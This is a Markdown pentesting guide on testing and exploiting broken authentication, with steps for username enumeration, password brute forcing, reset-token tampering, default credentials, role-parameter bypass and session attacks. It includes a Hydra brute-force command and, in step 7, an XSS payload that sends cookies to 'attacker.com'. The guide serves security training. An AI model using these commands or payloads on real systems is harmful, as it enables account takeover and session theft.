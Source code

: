 # Broken Authentication

[Relative Cheat Sheet](./broken-auth-cheat.md)

## Step-by-Step Guide for Testing and Exploiting Broken Authentication Vulnerabilities

### 1. Understand Authentication Mechanisms
   - **Explanation**: Authentication verifies identity via knowledge (passwords, PINs), ownership (TOTP, tokens), or inherence (biometrics). Broken authentication occurs when these are weakly implemented, allowing bypasses or unauthorized access.
   - **Why It's Done**: Knowing the auth flow (e.g., session tokens, resets) helps identify flaws like weak passwords or missing validations.
   - **Example**: A login form with no rate limiting or a predictable reset token.

### 2. Enumerate Valid Usernames
   - **Explanation**: Submit usernames with invalid passwords to detect response differences (e.g., "Invalid password" vs "User not found") or timing variations.
   - **Why It's Done**: Valid usernames enable targeted brute forcing or social engineering.
   - **Example**: Test `/login?user=admin` vs `testuser` to see different error messages.

### 3. Brute Force Passwords or Tokens
   - **Explanation**: Use tools like Hydra or Medusa to guess passwords or reset tokens for enumerated users.
   - **Why It's Done**: Weak credentials or tokens grant unauthorized access.
   - **Example**: `hydra -l admin -P passwords.txt http-post-form "/login:user=^USER^&pass=^PASS^:F=invalid"`.

### 4. Test Password Reset Mechanisms
   - **Explanation**: Submit reset requests to check for guessable tokens, weak security questions, or injectable fields (e.g., username in reset URL).
   - **Why It's Done**: Flawed resets allow bypassing login via token guessing or manipulation.
   - **Example**: `/reset?user=admin&token=123`—try changing `user` to another account.

### 5. Test Default or Weak Credentials
   - **Explanation**: Attempt common credentials (e.g., admin:admin) or check for known defaults in the cheat sheet (e.g., Cisco:cisco).
   - **Why It's Done**: Default or weak credentials are common in misconfigured systems.
   - **Example**: Login with `admin:password` on a router admin panel.

### 6. Bypass Authentication Logic
   - **Explanation**: Access protected pages directly (e.g., `/admin`) or modify parameters (e.g., `role=user` to `role=admin`) to bypass checks.
   - **Why It's Done**: Weak access controls allow unauthorized entry without credentials.
   - **Example**: Change `GET /profile?role=user` to `role=admin` in Burp.

### 7. Exploit Session Attacks
   - **Explanation**: Test for session fixation (set cookie pre-login, check if persists) or hijacking (steal via XSS or predictable IDs).
   - **Why It's Done**: Compromised sessions grant persistent access.
   - **Example**: XSS payload `<script>document.location='attacker.com/?c='+document.cookie</script>` to steal session.

### 8. Test Session Timeout and Entropy
   - **Explanation**: Leave sessions idle to check expiration, or brute force session IDs for low entropy.
   - **Why It's Done**: Long-lived or predictable sessions increase hijacking risk.
   - **Example**: Generate sequential IDs to test if valid.

### 9. Chain with Other Vulnerabilities
   - **Explanation**: Combine with XSS (steal sessions) or CSRF (force actions) for escalation.
   - **Why It's Done**: Amplifies impact, like account takeover.
   - **Example**: XSS to deliver CSRF payload changing user settings.

### 10. Assess Prevention Measures
   - **Explanation**: Check for strong passwords, 2FA, rate limits, secure cookies (HttpOnly, Secure flags), and proper timeouts.
   - **Why It's Done**: Informs remediation to strengthen auth.
   - **Example**: Recommend 2FA and lockouts after 5 failed attempts.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, provides a detailed process for testing broken authentication. Test ethically within scope.
